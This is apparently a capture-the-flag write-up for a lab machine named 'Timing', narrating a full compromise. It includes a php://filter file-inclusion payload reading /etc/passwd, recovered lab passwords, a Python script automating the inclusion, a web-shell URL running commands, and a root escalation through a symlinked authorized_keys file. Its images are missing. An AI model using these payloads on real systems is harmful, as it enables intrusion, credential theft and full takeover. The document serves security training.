


# Timing



Nmap scan to discover open ports and service versions.

```python
# Nmap 7.92 scan initiated Tue Dec 28 16:29:54 2021 as: nmap -sV -o nmap-default 10.10.11.135
Nmap scan report for 10.10.11.135
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 28 16:30:19 2021 -- 1 IP address (1 host up) scanned in 24.94 seconds
```

Directory scanning on port 80.



A parameter was found in the “image.php” file.


```python
php://filter/convert.base64-encode/resource=/etc/passwd
```

DB_conn password:

```c
mysql
host=localhost
dbname=app
root
4_V3Ry_l0000n9_p422w0rd
```

Code some scripts to auto explore the vulnerability without need to send the payloads on the URL of the browser.

Interesting code in the logout:


Other interesting code line in the upload


The login of the panel is aaron:aaron, the name of the user.

Bypassing the admin_auth_check parsing the name of the cookie.


When we send the POST request it shows one more file to us:


It set the role in the current session:


Send the request to update session


Now the admin auth doesn’t return erros.


In the main page return we have a new item called “admin panel”.


In the avatar we can upload images.


The upload script creates a hash based on “$file_hash” string more the current time more a “_” and the name of the archive. 

So we must have to create a local script, take the time, try to send the upload archive in the same time.


With the time, try to create hashes based on the start +1, like this.


Output of the PHP script.


Sending a LFI with the hash and the local PATH of the image show us the PHP file.


Bypassing the read of the file:


The shell didn’t work because I send the PHP file with the get in lower case, so to be more faster I did a script to make the requests based in a wordlist automatically:


```c
import requests
import base64
import sys

f = open("word.txt", "r")

for i in f:
	URL = "http://10.10.11.135/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/images/uploads/"+str(i[:-1])
	print(URL)
	req = requests.get(URL)
	new=base64.b64decode(req.text)
	print(new.decode("utf-8"))

f.close()
```

URL:

```c
http://10.10.11.135/image.php?img=php://filter/convert.base64-encode|convert.base64-decode/resource=/var/www/html/images/uploads/5d79f0fdcdd0c15d6b719d913d10d713_shellzinha.php.jpg&cmd=id
```

I don’t achieve the reverse shell, so I code a script to make interactive commands and I found a backup file in opt directory.


With this file I send to the HTML directory and  I downloaded the zip archive:


Probably an user password:


```c
-$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', 'S3cr3t_unGu3ss4bl3_p422w0Rd');
```

The SSH session with aaron and the obtained password worked:


Binary that we can run with sudo using the aaron user:


The script request FTP servers and HTTP, if you send a file the binary download the file and save in actual directory.


Thinking in a way to elevate privileges create a dynamic link with root authorized keys link, and try to send a id_rsa.pub with the same name of the link 


Download with the binary and try to connect using the private key:

Root user with success!

